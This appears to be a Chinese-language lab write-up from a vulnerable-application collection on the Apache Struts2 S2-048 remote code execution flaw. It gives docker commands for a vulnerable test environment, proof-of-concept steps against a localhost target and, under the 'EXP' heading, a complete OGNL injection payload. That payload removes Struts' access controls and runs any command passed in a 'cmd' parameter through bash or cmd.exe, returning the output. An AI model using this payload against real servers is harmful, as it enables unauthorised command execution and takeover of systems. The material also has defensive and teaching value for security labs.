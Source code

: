 ```yaml
---
layout: post
title: "Struts2-struts1-plugin 插件远程代码执行漏洞(S2-048)"
date: 2017-07-07 23:57:35
image: '/assets/img/'
description: '当开发者使用Struts2 Struts1的插件时，可能会因为不受信任的输入导致远程命令执行漏洞的产生'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: '当开发者使用Struts2 Struts1的插件时，可能会因为不受信任的输入导致远程命令执行漏洞的产生。'
introduction: '当开发者使用Struts2 Struts1的插件时，可能会因为不受信任的输入导致远程命令执行漏洞的产生。'
---
```


### 漏洞信息

 * [S2-048 公告](https://cwiki.apache.org/confluence/display/WW/S2-048)

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:s_struts2_s2-048
 ```

2. 启动环境
 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-048
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

> 例如目标地址为：http://127.0.0.1:32768/

1.访问本例目标地址

 > http://127.0.0.1:32768/integration/editGangster.action

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/poc-1.png)

2.如下图在Gangster Name字段输入 Payload
 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/poc-2.png)

3.提交后可看到表达式被执行
 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/poc-3.png)

#### EXP

核心部分如下：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=#parameters.cmd[0]).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

需要再指定一个 cmd 参数，传入要执行的命令：

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/exp.png)

### 参考链接

* [S2-048 公告](https://cwiki.apache.org/confluence/display/WW/S2-048)
* [【漏洞分析】Struts2高危漏洞S2-048分析](http://bobao.360.cn/learning/detail/4078.html)

